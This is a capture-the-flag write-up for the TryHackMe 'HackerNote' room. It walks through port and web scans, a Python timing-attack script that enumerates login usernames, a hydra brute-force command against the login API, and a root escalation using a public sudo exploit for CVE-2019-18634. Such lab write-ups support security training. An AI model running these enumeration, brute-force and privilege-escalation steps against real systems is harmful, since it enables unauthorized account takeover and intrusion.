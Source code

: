 
## Room : HackerNote
## Description: This room teaches the basics of webapp pentesting.
### Author: gr33nm0nk2802

[link](https://tryhackme.com/room/hackernote)

```
export IP=10.10.254.162
```

# Task 1: (Initial Reconnaissance)

```(nmap scan)
	
	nmap -sS -vv -sV -Pn $IP
	
	PORT     STATE SERVICE REASON         VERSION
	22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp   open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
	8080/tcp open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
So, we have 3 ports open and Golang is being used in the backend. That's the answer for the first two questions.

# Task 2: (Investigation)

In this section we try to analyse the web service and look for the possible entrypoints. Also we look for the login, signup and forgot password page and try to login as an unauthenticated user to find any flaws that may reside in the application by testing it manually.


```(nikto scan)
	
	nikto -h http://$IP

	- Nikto v2.1.6
	---------------------------------------------------------------------------
	+ Target IP:          10.10.254.162
	+ Target Hostname:    10.10.254.162
	+ Target Port:        80
	+ Start Time:         2020-07-15 19:18:13 (GMT5.5)
	---------------------------------------------------------------------------
	+ Server: No banner retrieved
	+ The anti-clickjacking X-Frame-Options header is not present.
	+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
	+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
	+ No CGI Directories found (use '-C all' to force check all possible dirs)
	+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.

```

Looking at the login.js file we find something interesting, 

Under the  login() function
```
	const response = await postData("/api/user/login", { username: username, password: password });
```

Under the forgotPassword() function
```
	const response = await getData("/api/user/passwordhint/" + username)
```

Under the createUser() function
```
	const response = await postData("/api/user/create", user);
```

These api endpoints look interesting.

We will try to bruteforce the (/api/user/login)

# Task 3: (Exploit)

Using the timing attack flaw as described in the room we are able to exploit and find out the username to be james

For the names use [names wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt) and convert the names to lowercase.

Timing Attack:

```(python)
	
	#!/usr/bin/env python

	import requests
	import time

	URL="http://10.10.254.162/api/user/login"


	def doLogin(username):
		creds = {"username":username,"password":"invalidPasswordxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx!"}
		response = requests.post(URL,json=creds)


	with open('names.txt','r') as f:
		
		data=f.read().rstrip().split()
		for user in data:
			users=user.rstrip()
			
			startTime = time.time()
		 	doLogin(users)
		 	endTime = time.time()
			print(users+" has login time of "+str(endTime-startTime))
```

### Reason for the exploit working is explained in the room.

```
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```
Here we can clearly see that if the username is correct then the backend does an extra check for the password which takes considerable time.

We will use a pre written and tested script for the attack part.
Here is the [link](https://github.com/NinjaJc01/hackerNoteExploits)


# Task 4: (Password Attack)

Next we createa custom wordlist as described in the room using [hashcat]( https://github.com/hashcat/hashcat-utils/releases)

Download the wordlist.zip folder containing colors.txt and numbers.txt

Next we create our custom wordlist using hashcat.

```(custom wordlist)
    ./combinator.bin colors.txt numbers.txt > wordlist.txt
``` 

Next we crack the password using hydra.

```(hydra bruteforce)
	hydra -l james -P wordlist.txt $IP http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password""
```

Now we have the password for the user james:blue7

Using this data when we login and view the notes page we get the ssh password of james.
Lets ssh into the machine now.

After ssh we can find the user flag there.

# Task 5: (Esclate Privileges)

Next for privilege esclation we try to run any command as sudo to check if this works.

When we enter 
```
sudo -l
```

We are prompted with a password but when we run the password we see asteriks. This is a recent vulnerability. This abnormal setting is known as pwdfeedback. This comes in CVE-2019-18634

Exploit: https://github.com/saleemrashid/sudo-cve-2019-18634

First we compile the exploit on our local machine. Then we use scp to copy the files from our host to server.

```(copying files to the server)
   scp ./exploit james@$IP:/home/james
```

After copying this exploit we simply execute it and bingo we are root.

Thanks to my teammate p4nth3r for the last part. I was struck at scp. Do note use the scp command on the host where you compiled the program and dont forget to export your IP to the variable if you intend to use the exactly same command. 
